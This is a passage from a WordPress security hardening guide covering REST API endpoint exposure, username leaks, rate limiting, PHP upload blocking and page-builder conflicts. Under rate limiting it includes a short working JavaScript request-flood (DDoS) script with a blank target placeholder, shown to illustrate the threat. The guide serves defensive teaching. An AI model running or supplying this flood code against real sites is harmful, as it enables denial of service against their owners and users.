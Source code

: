 Turn off any API endpoints you aren’t using to limit exposure. For example, disable `rest_route=/wp/v2/users` to prevent username leaks.

### Scan for Leaked Information

Regularly check posts, comments, and other content for accidentally exposed usernames or sensitive data.

## 3\. Rate Limit Users

Your users don’t need unlimited requests. Implement rate limiting to prevent abuse. For example, limit requests to 500 per minute and block excessive traffic. This can help mitigate DDoS attacks.

### Example of a DDoS Attack Script

```
function floodImagesXYZ() {
  var TARGET = ""; // ADD TARGET URI
  var URI = "/index.php?";
  var pic = new Image();
  var rand = Math.floor(Math.random() * 10000000000000000000000);
  try {
    pic.src = "http://" + TARGET + URI + rand + "=val";
  } catch {
    (error) => {
      console.log(error);
      console.log("Error in:", URI);
    };
  }
}
setInterval(floodImagesXYZ, 10);
```

This script demonstrates how easily a server can be overwhelmed by repeated requests. Implementing rate limiting and using tools like **Cloudflare** can help absorb such attacks.

## 4\. Use Hardening Tools

### Block Unnecessary File Uploads

If you don’t need to upload files via PHP, block that functionality to reduce vulnerabilities.

### Additional Hardening

Implement server configurations and tools to mitigate common threats, such as file permission issues or vulnerable script executions.

## 5\. Manage Builder Editors Carefully

If you’re using page builders like **Divi**, **Elementor**, or **WPBakery**, disable hardening tools that block PHP uploads while making changes. For example, Elementor might throw errors like `the_content()` not being present if the firewall blocks legitimate requests.
